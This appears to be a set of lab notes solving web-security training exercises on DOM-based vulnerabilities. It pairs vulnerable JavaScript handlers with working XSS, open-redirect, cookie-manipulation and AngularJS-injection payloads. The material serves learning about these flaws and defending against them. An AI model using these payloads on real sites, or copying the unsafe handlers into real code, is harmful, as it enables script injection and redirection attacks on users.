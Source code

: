 # DOM-based Vulnerability

### DOM XSS using web messages
* Vulnerable Code - `addEventListener()` listens for a web message
```html
<!-- Ads to be inserted here -->
<div id='ads'>
</div>
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
* Payload - By adding a wrong `src` and `onerror=` function will cause `print()`
```html
<iframe src="https://ac7e1f1c1f3ed2d1c06281a0005800be.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

### DOM XSS using web messages and a JavaScript URL
* Vulnerable Code - `indexOf` looks for http: or https: in the message body
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acf31f5e1e1ff65ec0851f1800fc00fa.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*')">
```

### DOM XSS using web messages and JSON.parse
* Vulnerable Code - `JSON.parse` parse the message data.
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```
* Payload
```html
<iframe src="https://acbe1f971f2cee6bc0482be200600037.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### DOM-based open redirection
* Vulnerable Code
```html
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
* Payload
```html
### Visit the following URL. The vulnerable code will read the value of url= and redirect the user to the following url when "Back to Blog" is clicked:

https://acaa1f4e1f5e9aa7c0c6e265002f004c.web-security-academy.net/post?postId=4&url=https://exploit-ac4f1f6d1f429a0dc0e4e2eb018e0096.web-security-academy.net/ 
```

### DOM-based cookie manipulation
* Payload
```html
<iframe src="https://acb61f151e1962a8c0e21111007b00ff.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://acb61f151e1962a8c0e21111007b00ffweb-security-academy.net';window.x=1;"> 
```

### DOM XSS in jQuery anchor href attribute sink using location.search source
* Vulnerable Code - We can inject JavaScript with `returnPath` parameter, and it will be added as a value to `attr()` attrobite. 
```html
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```
* Payload
```html
https://acae1faa1ef8845fc0303f5900250072.web-security-academy.net/feedback?returnPath=javascript:alert(document.domain)
```

### DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
AngularJS is a popular JavaScript library, which scans the contents of HTML nodes containing the ng-app attribute (also known as an AngularJS directive). When a directive is added to the HTML code, you can execute JavaScript expressions within double curly braces. This technique is useful when angle brackets are being encoded. 

`<body ng-app>` --> This indicates that it uses AngularJS ng-app directive. Using double-curly braces, you can introduce an arbitrary JavaScript.

* Payload
```
{{$on.constructor('alert(1)')()}}
```

### Reflected DOM XSS
Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.

* Payload
```
\"-alert(1)}//
```

Server response:
```json
{"results":[],"searchTerm":"\\"-alert(1)}//"}
```

### Stored DOM XSS
* Payload
```
 <><img src=1 onerror=alert(1)> 
```

